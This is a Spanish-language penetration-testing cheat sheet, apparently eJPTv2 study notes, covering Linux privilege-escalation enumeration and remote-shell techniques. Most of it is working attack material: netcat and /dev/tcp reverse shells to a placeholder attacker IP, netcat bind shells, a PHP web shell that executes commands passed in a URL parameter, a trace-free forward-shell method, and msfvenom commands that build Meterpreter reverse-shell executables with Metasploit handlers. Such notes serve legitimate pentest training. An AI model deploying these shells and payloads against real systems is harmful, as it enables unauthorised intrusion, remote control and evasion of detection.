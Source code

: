 ```yaml
---

---
```


------
## Enumeración una vez ganamos acceso para elevar privilegios

> Webs

- [GtfObins](https://gtfobins.github.io/)
- [HAcktricks](https://book.hacktricks.wiki/en/index.html)
- [IA - Hacktrics](https://www.hacktricks.ai/)


> Tools
- [LSE](https://github.com/diego-treitos/linux-smart-enumeration)
- [PSPY](https://github.com/DominicBreuker/pspy)

> Commands Para **SUID** para **SGID**
```bash
SGID
find / -perm -4000 -o -perm -2000 -exec ls -ld {} \; 2>/dev/null
SUID
find -perm -4000 -ls 2>/dev/null
AMBOS
ls -alh /path/to/check | grep 's'
``` 
> Commands para ver capabilities
> Podemos ver ciertas tareas privilegiadas con el user actual

```bash
getcap -r / 2>/dev/null
```

>Ver que tarea se ejecuta

- [PSPY](https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64)

```bash
systemctl list-timers
```

>Ver que comando se  ejecuta  y que usuarios lo ejecutan

```bash
ps -eo command
ps -eo user,command
```

- Script --> [**currentcommand.sh**](D:\Training\eJPTv2\Payloads\currentcommandSystem.sh)
```bash
#!/bin/bash

function ctrl_c(){
	echo -e "\n\n[!] Saliendo...\n"
	tput cnorm: exit 1 #Recuperar cursor
}

# Habilitar Ctrl+c
trap ctrl_c SIGINT

old_process=$(ps -eo user,command)

tput civis # Ocultar cursor

while true; do
	new_process=$(ps -eo user,command)
	diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "command|kworker|procmon"
	old_process=$new_process
done
```
## Netcat - nc (también tenemos ncat, n.traditional)

> -e --> **esta flag coge el archivo a utilizar**

> -nvlp --> escucho a una IP, en modo verbose, a la escucha, por el puerto que le especifique

## Reverse shells

- [RevShell](https://www.revshells.com/)
- [Pentest Monkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

>En este caso mando una shell y me pongo a la escucha desde la ip atacante

 - **Desde máquina víctima**

```bash
 nc -e /bin/bash ip_atacante 8080
 
bash -c 'bash -i >& /dev/tcp/ip_atacante/port 0>&1'
bash -c "bash -i >& /dev/tcp/ip_atacante/port 0>&1"
bash -i >& /dev/tcp/ip_atacante/port 0>&1
```


- **Desde máquina atacante**
```bash
rlwrap nc -nvlp 8080
```

- **Una vez estemos dentro**
```bash
script /dev/null -c bash
```


## Bind shell

> En este caso me pongo en esucha desde la víctima con una shell y desde mi consola me conecto
- **Desde máquina víctima**

```bash
nc -nvlp 4646 -e/bin/bash
```

- Desde máquina atacante
```bash
rlwrap nc ip_víctima 4646
```

## Forward Shell

> En este caso se bloquea el tráfico saliente  por lo que usaremos temo files para conseguir leer el output en otro archivo 

```bash
nano cmd.php
```

```php
<?
	echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
?>
```

- Así consulto comandos en la web
http://192.168.1.135/cmd.php?cmd=whoami


- **Pero en este caso queremos una shell interactiva que nos han capado**

```php
<?php
	echo shell_exec($_REQUEST['cmd']);
?>
```




>Debemos ejecutar una revshell por el puerto 443
```bash
nc -e /bin/bash ip_atacante 443
```

>****Manda archivos temporales con la salida del comando ejecutado a nuetsrro PC, dejándolos en memoria e la máquina víctima y eliminando cualquier rastro****
	
[tty_over_http.py](https://github.com/s4vitar/ttyoverhttp/blob/master/tty_over_http.py)

- **Simplemente ejecuto** `python3 tty_over_http.py` **y he ganado acceso sin necesidad de mandar una shell desde la víctima**
```bash
script /dev/null -c bash
```
## Payloads

#DiferenciasDePayloads

>La diferencia es la forma en que se envían por detrás, a la hora de utilizarlo no notaremos nada.
### Staged Payloads

- Se envía en diferentes fases
- Detección más difícil
- Mucho más pequeño

- Crear payload
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp -- platform Windows -a x64 LHOST=ip_ataque LPORT=port_ataque -f exe -o shell.exe
```

>En **metasploit**

```bash
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
```
### Non-Staged Payloads

- Se envía de una sóla vez
- Es más grande

- Crear payload
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp --platform Windows -a x64 LHOST=ip_ataque LPORT=port_ataque -f exe -o shell.exe
```

>En **metasploit**

```bash
use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_tcp
```

> **Sin Metasploit**

```bash
msfvenom -p windows/x64/shell_reverse_tcp --platform Windows -a x64 LHOST=ip_ataque LPORT=port_ataque -f exe -o shell.exe
```

```bash
rlwrap nc -nvlp port_ataque
```
